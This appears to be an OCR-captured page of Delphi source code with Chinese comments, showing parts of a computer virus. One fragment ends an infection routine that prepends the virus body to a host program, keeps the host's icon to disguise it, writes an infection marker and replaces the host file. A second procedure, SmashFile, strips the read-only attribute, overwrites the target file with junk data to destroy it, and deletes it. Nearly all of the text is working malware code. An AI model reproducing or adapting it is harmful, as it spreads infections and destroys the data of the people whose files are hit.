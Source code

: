 ```
        //写入病毒体主图标之前的数据
        CopyStream(HdrStream, 0, DstStream, 0, IconOffset);
        //写入目前程序的主图标
        CopyStream(IcoStream, 22, DstStream, IconOffset, IconSize);
        //写入病毒体主图标到病毒体尾部之间的数据
        CopyStream(HdrStream, IconTail, DstStream, IconTail, HeaderSize - IconTail);
        //写入宿主程序
        CopyStream(SrcStream, 0, DstStream, HeaderSize, SrcStream.Size);
        //写入已感染的标记
        DstStream.Seek(0, 2);
        iID := $44444444;
        DstStream.Write(iID, 4);
      finally
        HdrStream.Free;
      end;
    finally
      SrcStream.Free;
      IcoStream.Free;
      DstStream.SaveToFile(FileName); //替换宿主文件
      DstStream.Free;
    end;
  except;
  end;
end;
```

将目标文件写入垃圾码后删除

```
{ 将目标文件写入垃圾码后删除 }
procedure SmashFile(FileName: string);
var
  FileHandle: Integer;
  i, Size, Mass, Max, Len: Integer;
begin
  try
    SetFileAttributes(PChar(FileName), 0); //去掉只读属性
    FileHandle := FileOpen(FileName, fmOpenWrite); //打开文件
    try
      Size := GetFileSize(FileHandle, nil); //文件大小
      i := 0;
      Randomize;
      Max := Random(15); //写入垃圾码的随机次数
      if Max < 5 then
        Max := 5;
      Mass := Size div Max; //每个间隔块的大小
      Len := Length(Catchword);
      while i < Max do
      begin
        FileSeek(FileHandle, i * Mass, 0); //定位
        //写入垃圾码，将文件彻底破坏掉
        FileWrite(FileHandle, Catchword, Len);
        Inc(i);
      end;
    finally
      FileClose(FileHandle); //关闭文件
    end;
    DeleteFile(PChar(FileName)); //删除之
  except
  end;
end;
```
